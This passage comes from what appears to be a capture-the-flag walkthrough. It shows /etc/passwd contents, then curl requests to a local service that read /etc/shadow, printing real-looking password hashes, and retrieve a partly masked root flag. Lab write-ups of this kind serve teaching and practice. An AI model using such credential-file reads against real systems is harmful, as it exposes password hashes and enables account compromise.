 ```terminal
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
activemq:x:1000:1000:,,,:/home/activemq:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
``` 
Yesss, it's work. I will continue on it by trying some other sensitive files, like `/etc/shadow` or `/root/root.txt`
```terminal
$ curl http://localhost:1337/etc/shadow
root:$y$j9T$S6NkiGlTDU3IUcdBZEjJe0$sSHRUiGL/v4FZkWjU.HZ6cX2vsMY/rdFBTt25LbGxf1:19666:0:99999:7:::
daemon:*:19405:0:99999:7:::
bin:*:19405:0:99999:7:::
sys:*:19405:0:99999:7:::
sync:*:19405:0:99999:7:::
games:*:19405:0:99999:7:::
man:*:19405:0:99999:7:::
lp:*:19405:0:99999:7:::
mail:*:19405:0:99999:7:::
news:*:19405:0:99999:7:::
uucp:*:19405:0:99999:7:::
proxy:*:19405:0:99999:7:::
www-data:*:19405:0:99999:7:::
backup:*:19405:0:99999:7:::
list:*:19405:0:99999:7:::
irc:*:19405:0:99999:7:::
gnats:*:19405:0:99999:7:::
nobody:*:19405:0:99999:7:::
_apt:*:19405:0:99999:7:::
systemd-network:*:19405:0:99999:7:::
systemd-resolve:*:19405:0:99999:7:::
activemq:$y$j9T$5eMce1NhiF0t9/ZVwn39P1$pCfvgXtARGXPYDdn2AVdkCnXDf7YO7He/x666g6qLM5:19666:0:99999:7:::
```
We exploited it successfuly, so we will complete it by grabing the root flag.
```terminal
$ curl http://localhost:1337/root/root.txt
74a9e0d446b2dXXXXXXXXXXXXXXXXXX
```
Thanks for reading.
### Join Us
Thanks for reading. **Let's learn, explore, and hack together**. **Join us on Discord [here](https://discord.gg/wBT9wr9ruG)**. 

{\% include coffee.html \%}
